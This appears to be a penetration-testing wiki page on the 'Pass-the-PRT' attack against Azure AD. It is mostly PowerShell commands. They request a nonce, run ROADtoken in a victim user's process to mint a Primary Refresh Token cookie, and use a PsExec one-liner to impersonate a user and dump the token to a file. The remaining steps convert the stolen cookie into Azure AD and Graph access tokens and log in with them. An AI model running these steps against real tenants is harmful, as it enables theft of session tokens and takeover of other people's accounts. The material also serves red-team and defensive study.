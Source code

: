 ## Pass-the-PRT Attack Examples

### Attack - ROADtoken

For more info about this way [**check this post**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). ROADtoken will run **`BrowserCore.exe`** from the right directory and use it to **obtain a PRT cookie**. This cookie can then be used with ROADtools to authenticate and **obtain a persistent refresh token**.

To generate a valid PRT cookie the first thing you need is a nonce.\
You can get this with:

```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```

Or using [**roadrecon**](https://github.com/dirkjanm/ROADtools):

```powershell
roadrecon auth prt-init
```

Then you can use [**roadtoken**](https://github.com/dirkjanm/ROADtoken) to get a new PRT (run in the tool from a process of the user to attack):

```powershell
.\ROADtoken.exe <nonce>
```

As oneliner:

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Then you can use the **generated cookie** to **generate tokens** to **login** using Azure AD **Graph** or Microsoft Graph:

```powershell
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
